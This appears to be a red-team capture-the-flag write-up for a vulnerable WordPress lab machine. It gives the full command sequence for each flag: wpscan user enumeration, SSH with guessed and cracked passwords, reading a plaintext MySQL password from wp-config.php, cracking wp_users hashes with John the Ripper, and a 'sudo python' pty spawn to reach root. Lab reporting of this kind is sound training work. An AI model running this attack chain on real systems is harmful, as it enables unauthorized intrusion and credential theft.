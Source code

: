 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sV 192.168.1.0/24
```
![Nmap scan results](/Images/Nmap-scan1.jpg)
![](/Images/Nmap-scan2.jpg)

This scan identifies the services below as potential points of entry:

**Target 1 (192.168.1.110)**

  - Port 22/TCP 	    Open 	SSH
  - Port 80/TCP 	    Open 	HTTP
  - Port 111/TCP 	Open 	rcpbind
  - Port 139/TCP 	Open 	netbios-ssn
  - Port 445/TCP 	Open 	netbios-ssn


The following vulnerabilities were identified on each target:

**Target 1**

  - User Enumeration (WordPress site) - easily found with `wpscan`
  - Weak User Password - user Michael using "Michael" as their password 
  - MySQL Password Unencrypted in Config File (wp-config.php)
  - Misconfiguration of User Privileges/Privilege Escalation - Python command can be easily used to gain root access. 


- User Enumeration

![User Enumeration WPscan](/Images/wpscan.jpg)

- Weak User Password

![SSH into wp](/Images/ssh-michael.jpg)

- MySQL Password Plaintext

![Password Hash](/Images/wp-config.jpg)

- Misconfiguration of User Privileges

![User Privileges](/Images/python-command.jpg)


### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1

  - `Flag 1: b9bbcb33ellb80be759c4e844862482d`
    - **Exploit Used**
      - WPScan to enumerate users of the Target 1 WordPress site
    - Command: 
        - `$ wpscan --url http://192.168.1.110 --enumerate u`

![User Enumeration Users](/Images/wp-enumeration.jpg)

- Targeting user Michael
    - Guessed Michael's password easily as it is their name
    - User password: michael
    
- Capturing Flag 1: SSH in as Michael navigating through directories starting from the root directory.
    - Flag 1 found in var/www/html directory in the `service.html` file using `grep`.
    - Commands:
        - `ssh michael@192.168.1.110 -p22`
        - `pw: michael`
        - `cd /`
        - `cd var/www/html`
        - `ls -la`
        - `grep flag *`

![Flag 1](/Images/flag1.jpg)



  - `Flag 2: fc3fd58dcdad9ab23faca6e9a3e581c`
    - **Exploit Used**
      - Same exploit used to gain Flag 1.
      - Capturing Flag 2: While SSH in as user Michael, Flag 2 was also found.
        - Navigating through directories and files as before, Flag 2 was found in /var/www next to the html folder that held Flag 1.
        - Commands:
            - `ssh michael@192.168.1.110` 
            - `pw: michael`
            - `cd /` 
            - `find / -name flag*`
            - `cd var/www/`
            - `ls -la`
            - `cat flag2.txt`

![Flag 2 find](/Images/flag2-find.jpg)

![Flag 2 cat](/Images/flag2.jpg)



- `Flag 3: afc01ab56b50591e7dccf93122770cd2`
    - **Exploit Used**
      - Same exploits used to gain Flag 1 and 2.
      - Capturing Flag 3: Accessing MySQL database.
        - Once having found wp-config.php and gaining access to the database credentials as Michael, MySQL was used to explore the database.
        - Flag 3 was found in wp_posts table in the wordpress database. Intrestingly enough Flag 4 was also found alongside Flag 3 in the wp_posts table.
        - Commands:
            - `mysql --user=root --password=R@v3nSecurity` 
            - `show databases;`
            - `use wordpress;` 
            - `show tables;`
            - `SELECT * FROM wp_posts;`

![Flag 3](/Images/flag3.jpg)



- `Flag 4: 715dea6c055b9fe3337544932f2941ce`
    - **Exploit Used**
      - Unsalted password hash and the use of privilege escalation with Python.
      - Capturing Flag 4: Retrieve user credentials from database, crack password hash with John the Ripper and use Python to gain root privileges.
        - Once having gained access to the database credentials as Michael from the wp-config.php file, lifting username and password hashes using MySQL was next. 
        - These user credentials are stored in the wp_users table of the wordpress database. The usernames and password hashes were copied/saved to the Kali machine in a file called wp_hashes.txt.
            - Commands:
                - `mysql --user=root --password=R@v3nSecurity` 
                - `show databases;`
                - `use wordpress;` 
                - `show tables;`
                - `SELECT * FROM wp_users;`

        - ![wp_users table](/Images/wpusers-table.jpg)

        - On the Kali local machine the wp_hashes.txt was run against John the Ripper to crack the hashes. 
            - Command:
                - `john wp_hashes.txt`

        - ![John the Ripper](/Images/john.jpg)

        - Once Steven’s password hash was cracked, the next thing to do was SSH as Steven. Then as Steven checking for privilege and escalating to root with Python
            - Commands: 
                - `ssh steven@192.168.1.110 -p22`
                - `pw:pink84`
                - `sudo -l`
                - `sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’`
                - `cd /root`
                - `ls -la`
                - `cat flag4.txt`

![steven ssh](/Images/steven-ssh.jpg)

![evelating privileges](/Images/python-command.jpg)

![Flag 4](/Images/flag4.jpg)



